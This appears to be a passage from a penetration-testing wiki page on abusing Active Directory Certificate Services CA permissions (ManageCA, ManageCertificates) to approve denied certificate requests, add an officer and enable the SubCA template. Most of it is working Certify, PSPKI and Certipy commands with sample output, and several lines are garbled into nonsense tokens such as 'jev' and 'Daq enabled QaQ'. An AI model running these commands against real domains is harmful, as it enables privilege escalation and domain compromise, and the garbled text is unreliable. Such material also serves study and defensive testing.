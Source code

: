 Simplification of this process is achievable through the use of PSPKI’s **Enable-PolicyModuleFlag** cmdlet, allowing modifications without direct GUI interaction.

Possession of **`ManageCertificates`** jev facilitates the approval of pending requests, effectively circumventing the "CA certificate manager approval" safeguard.

A combination of **Certify** and **PSPKI** modules can be utilized to request, approve, and download a certificate:
```powershell
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```
### Attack 2

#### Explanation

{% hint style="warning" %}
In the **previous attack** **`Manage CA`** permissions were used to **enable** the **EDITF\_ATTRIBUTESUBJECTALTNAME2** flag to perform the **ESC6 attack**, but this will not have any effect until the CA service (`CertSvc`) is restarted. When a user has the `Manage CA` access right, the user is also allowed to **restart the service**. However, it **does not mean that the user can restart the service remotely**. Furthermore, E**SC6 might not work out of the box** in most patched environments due to the May 2022 security updates.
{% endhint %}

Therefore, another attack is presented here.

Perquisites:

* Only **`ManageCA` permission**
* **`Manage Certificates`** permission (can be granted from **`ManageCA`**)
* Certificate template **`SubCA`** must be **enabled** (can be enabled from **`ManageCA`**)

The technique relies on the fact that users with the `Manage CA` _and_ `Manage Certificates` access right can **issue failed certificate requests**. The **`SubCA`** certificate template is **vulnerable to ESC1**, but **only administrators** can enroll in the template. Thus, a **user** can **request** to enroll in the **`SubCA`** - which will be **denied** - but **then issued by the manager afterwards**.

#### Abuse

You can **grant yourself the `Manage Certificates`** access right by adding your user as a new officer.
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```
**`SubCA`** template **CA**-Da **`-enable-template`** parameter-Daq **enabled** QaQ. **SubCA** template, **default** Daq **enabled** QaQ.
```bash
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it
```